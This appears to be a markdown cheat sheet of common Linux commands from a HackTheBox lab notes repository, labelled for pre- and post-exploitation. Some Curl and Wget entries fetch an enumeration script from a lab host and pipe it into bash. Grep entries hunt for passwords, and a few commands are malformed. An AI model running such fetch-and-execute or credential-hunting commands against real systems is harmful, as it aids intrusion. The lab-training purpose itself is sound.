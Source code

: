 ### Post \ Pre Exploitation

- [ls](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#ls)
- [Grep](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#grep)
- [AWK](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#awk)
- [Curl](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#curl)
- [wget](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#wget)
- [Compression and decompression of files](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#compressing-and-decompressing)
- [Find](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#find)
- [xclip](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#xclip)
- [Misc](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#misc)
- [bashLoops](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#bash-loops)
- [sed](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#sed)
- [tr](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#tr)
- [tail](#tail)
- [watch](#watch)


#### ls
```bash
# list files
ls

# list hidden files
ls -la

# list files with human readable size
la -sh
```

#### Grep
```bash
# search for the files that contains the phrase password in it
grep -ir password
grep -iRl "password" ./

# exclude multiple strings
grep -Ev 'exclude1 | exclude 2' filename.txt

# obtain only lines starting with small letters
grep -v '[A-Z]' users.txt
```


#### AWK
```bash
# simple grab based on spaces, damnedsec cyberwr3nch hackthebox
awk '{print $1}' # output damnedsec

# multiple field seperator, obtain things only with in the delimeter
# contents of the file-> user: cyberwr3nch: damnedsec;123
awk -F: '{print $3}' users.txt # output damnedsec;123

# obatain the first occurance with awk
awk -F ':' "/1/ {print $1}"

# contents of users.txt -> user:[BLACKFIELD764430] rid:[0x451], 
awk -F"[][]" '{print $2}' users.txt # output: BLACKFIELD764430

# obtain contents from a specific line
# where x is the line number	
awk 'NR==x {print $1}'

# print lines form a specific line to the end of the file
awk 'NR>x' users.txt

# omit all the blank lines in a file
awk 'NF'
```

#### Curl
```bash
# make http, http2, http3 requests with curl
curl -vv http://10.10.10.10
curl --http2 http://10.10.10.10
curl --http3 http://10.10.10.10

# obtain only the response header
curl --head http://10.10.10.10.

# upload files via curl
curl --user "{user}:{creds}" --upload-file=<file> "http://10.10.10.10/upload_location"

# curl save the output
curl http://10.10.10.10 -o index.html

# pipe the requesting files
curl http://10.10.10.10:<port_no>:lin(peas\|enum).sh | bash
```

#### Wget
```bash
# download files with wget
wget http://10.10.10.10/xxx.sh

# run files without downloading
wget -O - http://10.10.10.11:<port_no>:lin(peas\|enum).sh
```

#### SED
```bash
# search and replace strings
cat username.txt | sed s/{stringToBeChanged}/{replacementString}/g

# replace the last ',' with a null character
cat usernames.txt | sed s/,$//

# add \x after every two characters, the .. denotes the two characters, \x&, adds \x and & doesnt delete the characters that were before
cat hexpayload.txt | sed 's/../\\x&/g'

# replace something in a file, replace the last occurance of , in the intel_update.log file
sed -i 's/,$/\]/' intel_update.log

# delete empty lines in a file
cat test.txt | sed -r '/^\s*$/d'

# use -i when a modification needs to be done on the file
# use -r when the modification has to be done on the output alone
```

#### tr
```bash
# translate new lines '\n' into ','; used in HTB nmap
cat usernames.txt | tr '\n' ','
```


#### Find
```bash
# find with file names
find . -name user.txt 

# find and execute
find . -name '*.txt' -exec cat "{}" \;

# {} is used as the place holder and tells the follwing to as an argument
# find directories with the specified name and execute the command
find . -type d -name uploads -exec rm -rf "{}" ';'

# find and copy files 
find -name 'file.ext' -exec cp "{}" <copy_path>  \;

# find the recently modified files
# maxdepth - sub directories, newermt - timestamp
find . -maxdepth 1 -newermt "2016-12-06"

# find files with specific string in it
find . -type f -print0 | xargs -0 -e grep -niH -e "your common word to search"
```

#### Compressing and Decompressing
```bash
# zip a folder with its contents
zip -r -9 html.zip /var/www/html

# unzip a zip file
unzip html.zip

# tar a file
tar cvf html.tar html/

# extract a .tar file
tar -xvf html.tar 

# tar.gz a folder
tar cvfz html.tar.gz html/

# unzip a *.tar.gz file
tar -xzvf html.tar.gz

# unzip rar file
unrar x html.rar
```

#### Xclip
```bash
# installation
sudo apt-get install xclip

# copying contents from a file and pasting it with 'mouse scroll button'
cat user.txt | xclip

# copying file and using cttl + v for pasting
cat user.txt | xclip -sel clip
cat user.txt | xclip -selection clipboard

# copy the contents in the primary clipboard
cat user.txt | xclip -selection primary
```

#### Misc
```bash
# monitor, repeat the same command for a period of time
# ls -la every 1 sec on a dir
watch -n 1 'ls -la'
```

#### Bash Loops
```bash
# for loop that adds payload += in each line of the file
for i in $(cat hexdata); do echo "payload += b'$i'"; done
```

#### Tail <a name='tail'></a>
```bash
# view only last line of the file
tail -1 <file>

# view last 7 lines from the file
tail -n7 <file>

# omit the line specified before
tail +7 <file> # displays without the first seven lines of the file

# update the contents of the file and provide the output
tail -f <file>
```

#### Watch <a name='watch'></a>
```bash
# repeat executing the command
watch <command>
 
# execute the commands in specific intervals
watch -n <seconds> <command>

# highlight the differences in each execution ## Thanks copycookie.com 
watch -n <seconds> -d <command> 

# exit on changes
watch -g <command>
```
